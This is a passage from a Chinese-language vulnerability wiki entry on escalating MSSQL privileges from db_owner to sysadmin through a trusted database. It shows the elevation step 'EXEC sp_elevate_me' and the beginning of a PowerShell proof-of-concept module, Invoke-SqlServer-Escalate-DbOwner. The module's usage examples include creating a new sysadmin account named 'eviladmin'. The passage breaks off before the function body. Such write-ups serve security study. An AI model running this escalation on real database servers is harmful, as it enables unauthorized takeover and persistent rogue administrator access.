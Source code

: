 3.提权至sysadmin

    USE MyTestdb01
    EXEC sp_elevate_me

![12.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId42.png)

再次检查权限

![13.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId43.png)

已经是sysadmin权限了，查看用户的属性也可以看到已经到sysadmin权限了

![14.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId44.png)

这里可以利用脚本已经一键利用

### poc

> Invoke-SqlServer-Escalate-Dbowner.psm1

    function Invoke-SqlServer-Escalate-DbOwner
    {
        <#
        .SYNOPSIS
           This script can be used escalate privileges from a db_owner to a sysadmin on SQL Server. 

        .DESCRIPTION
           This script can be used escalate privileges from a db_owner to a sysadmin on SQL Server.This is 
           possible when a user has the db_owner role in a trusted database owned by a sysadmin .  
           This script can accept SQL Credentials or use the current user's trusted connection.

        .EXAMPLE
           Getting sysadmin as a user that has the db_owner role in a trusted database owned by a sysadmin.

           PS C:\> Invoke-SqlServer-Escalate-DbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS
           [*] Attempting to Connect to SQLServer\SQLEXPRESS as myappuser...
           [*] Connected.
           [*] Enumerating accessible trusted databases owned by sysadmins...
           [*] 3 accessible databases found.
           [*] Checking if current user has db_owner role in any of them...
           [*] myappuser as db_owner role in 2 databases.
           [*] Attempting to evelate myappuser to sysadmin via master database...
           [*] Success! - myappuser is now a sysadmin.
           [*] All done.

        .EXAMPLE
           Creating new sysadmin, using a user that has the db_owner role in a trusted database owned by a sysadmin.
           
           PS C:\> Invoke-SqlServer-Escalate-DbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS -newuser eviladmin -newPass MyPassword!
           [*] Attempting to Connect to SQLServer1\SQLEXPRESS as myappuser...
           [*] Connected.
           [*] Enumerating accessible trusted databases owned by sysadmins...
           [*] Found 2 trusted databases owned by a sysadmin.
           [*] Checking if myappuser the has db_owner role in any of them...
           [*] myappuser has db_owner role in 1 of the databases.
           [*] Attempting to create and add eviladmin to the sysadmin role via the MyAppDb database...
           [*] Success! - eviladmin is now a sysadmin.
           [*] All done.
